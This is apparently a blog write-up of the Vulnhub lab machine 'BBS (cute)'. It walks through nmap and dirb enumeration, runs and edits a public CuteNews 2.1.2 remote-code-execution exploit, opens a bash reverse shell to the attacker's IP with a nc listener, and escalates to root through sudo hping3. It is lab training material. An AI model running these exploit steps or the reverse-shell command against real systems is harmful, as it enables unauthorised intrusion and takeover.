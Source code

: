```yaml
---
title: Vulnhub - BBS (cute)
description: My writeup on BBBS (cute) box.
categories:
 - vulnhub
tags: vulnhub hping3 python cutenews
---
```


![](https://infostory.files.wordpress.com/2016/10/bbs.jpg)

You can find the machine there > [BBS (cute)](https://www.vulnhub.com/entry/bbs-cute-101,567/){:target="_blank"}

## Summary

This box is a really easy but is really really good for beginners. Teach you the importance of exploit editing. We start by finding a vulnerable version of cutenews we edit the exploit and we gain command execution, privesc to root is simple we just exploit hping3. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.18
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 12:47 EEST
Nmap scan report for cute.htb.zte.com.cn (192.168.1.18)
Host is up (0.00046s latency).
Not shown: 65530 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
88/tcp  open  kerberos-sec
110/tcp open  pop3
995/tcp open  pop3s
MAC Address: 08:00:27:3E:4A:A5 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.05 seconds
$ nmap -p 22,80,88,110,995 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 12:48 EEST
Nmap scan report for cute.htb.zte.com.cn (192.168.1.18)
Host is up (0.00035s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04:d0:6e:c4:ba:4a:31:5a:6f:b3:ee:b8:1b:ed:5a:b7 (RSA)
|   256 24:b3:df:01:0b:ca:c2:ab:2e:e9:49:b0:58:08:6a:fa (ECDSA)
|_  256 6a:c4:35:6a:7a:1e:7e:51:85:5b:81:5c:7c:74:49:84 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
88/tcp  open  http     nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: 404 Not Found
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: IMPLEMENTATION(Courier Mail Server) UTF8(USER) LOGIN-DELAY(10) TOP UIDL PIPELINING STLS USER
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: IMPLEMENTATION(Courier Mail Server) LOGIN-DELAY(10) TOP UIDL UTF8(USER) PIPELINING USER
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
```

We start by enumerating the port 80, we can see the default apache page. Let's run a quick `dirb` scan.

```
$ dirb http://$ip/ -r

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep 24 12:53:27 2020
URL_BASE: http://192.168.1.18/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.1.18/ ----
==> DIRECTORY: http://192.168.1.18/core/                                                  
==> DIRECTORY: http://192.168.1.18/docs/                                                  
+ http://192.168.1.18/favicon.ico (CODE:200|SIZE:1150)                                    
+ http://192.168.1.18/index.html (CODE:200|SIZE:10701)                                    
+ http://192.168.1.18/index.php (CODE:200|SIZE:6175)
```

If we visit `/index.php` we can see the CuteNews login page:

![](https://i.imgur.com/MZnn1kO.png)

In the end we can see the version:

![](https://i.imgur.com/g0WqCT7.png)

## Shell as www-data

Let's search for possible exploits.

```
$ searchsploit cutenews 2.1.2
------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                    |  Path
------------------------------------------------------------------------------------------------------------------ ---------------------------------
CuteNews 2.1.2 - 'avatar' Remote Code Execution (Metasploit)                                                      | php/remote/46698.rb
CuteNews 2.1.2 - Arbitrary File Deletion                                                                          | php/webapps/48447.txt
CuteNews 2.1.2 - Authenticated Arbitrary File Upload                                                              | php/webapps/48458.txt
CuteNews 2.1.2 - Remote Code Execution                                                                            | php/webapps/48800.py
------------------------------------------------------------------------------------------------------------------ ---------------------------------
```

Perfect! :fire: let's mirror the python one in your box.

```
$ searchsploit -m php/webapps/48800.py
  Exploit: CuteNews 2.1.2 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48800
     Path: /usr/share/exploitdb/exploits/php/webapps/48800.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/Documents/vulnhub/bbs-cute/48800.py
```

If we try to run it we get an error:

```
$ python3 48800.py 

[->] Usage python3 expoit.py

Enter the URL> http://192.168.1.18/
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
[-] No hashes were found skipping!!!
================================================================

=============================
Registering a users
=============================
```

We have to edit the exploit. Simply we have to remove every `CuteNews` from the URL:

![](https://i.imgur.com/UvueVDU.png)

Do this and save it, now let's run it again and we can see we have command execution:

```
$ python3 48800.py                                                                                            

[->] Usage python3 expoit.py

Enter the URL> http://192.168.1.18/
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
[-] No hashes were found skipping!!!
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: jiuVQZxLu2 and password: jiuVQZxLu2

=======================================================
Sending Payload
=======================================================
signature_key: 2f8c9b4da3b9fe958e83f6abe83e7edb-jiuVQZxLu2
signature_dsi: b0309d8b10b78e793dd52b31ec8bb678
logged in user: jiuVQZxLu2
============================
Dropping to a SHELL
============================

command > whoami
www-data
```

This shell isnt that good tho, let's spawn a normal reverse shell:

```
command > bash -c 'bash -i >& /dev/tcp/$your_ip/5555 0>&1'
```

```
$ nc -lvp 5555
listening on [any] 5555 ...

www-data@cute:/var/www/html/uploads$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@cute:/var/www/html/uploads$ 
```

## Shell as root

Now while doing the basic enumeration, `sudo -l` says we can run `hping3` as root:

```
www-data@cute:/var/www/html/uploads$ sudo -l
Matching Defaults entries for www-data on cute:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on cute:
    (root) NOPASSWD: /usr/sbin/hping3
```

We can join the interactive mode of hping3 just by running it with no options:

```
www-data@cute:/var/www/html/uploads$ sudo hping3
hping3> whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
hping3> bash -i
root@cute:/var/www/html/uploads# 
```

Let's read the flag:

```
root@cute:~# cat root.txt
0b18032c2d06d9e738ede9bc24795ff2
```

I love such boxes! :D
